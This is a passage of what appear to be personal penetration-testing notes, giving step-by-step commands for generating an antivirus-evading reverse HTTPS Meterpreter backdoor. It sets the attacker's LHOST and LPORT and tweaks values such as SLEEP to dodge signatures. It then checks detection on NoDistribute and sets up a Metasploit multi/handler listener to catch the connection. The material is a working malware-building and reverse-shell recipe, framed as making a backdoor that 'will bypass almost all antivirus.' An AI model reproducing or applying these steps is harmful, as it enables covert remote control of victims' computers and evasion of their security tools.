 - use 1 //now you will have Evasion enabled
    
- list //Show all the payloads available. They have a pattern on the name, language/type of payload/method that is going to be used to establish the connection
    
- use 15 //use the payload 15. It will show the options
    
- set LHOST 10.20.14.213 //LHOST It Will configure on which ip address the connection will be received. In the case of reverse connection you want this ip be the Kali machine one, the attack machine
    
- set LPORT 8080 //it will appear that the user is using the browser
    
- options
    
- set PROCESSORS 1
    
- set SLEEP 6 //Those don't make much difference, they just make the backdoor look a bit different
    
- generate
    
- Give It a name, it can be something like rev_https_8080, this will help you remember informations
    
- Copy the path where the backdoor is armazened
    
- To test if the backdoor can be detectable, go to Google on NoDistribute, upload the file and see the results
    

This will bypass almost all antivirus. The way that the antiviruses work is that they have a large database with signatures that correspond to files that contain harmful code. They compare the signatures of your backdoor with the ones in the database, if matches it will flag it as malware or virus. So is good to modify your file as much as you can, so it becomes more unique so will not match anything on the antivirus database

If is detected by some antiviruses, you can play around with the values of SLEEP for example and see what works

  

The payload generated does reverse connection, so it will connect our computer to the target computer, not access a port. Like this it will bypass various firewalls and look less suspicious.

For this we need to open a port on our computer where the target can connect. Use same port used when generating payload

- Open terminator
    
- msfconsole //use metasploit because the meterpreter used to make the payload was made by metasploit
    
- Listen for connections
    
- use exploit/multi/handler
    
- show options
    
- set PAYLOAD windows/meterpreter/reverse_https //The most important thing to change is the payload
    
- Set LHOST to attacker computer
    
- Set the LPORT to the one you used when generating the payload. Like 8080
    
- exploit
    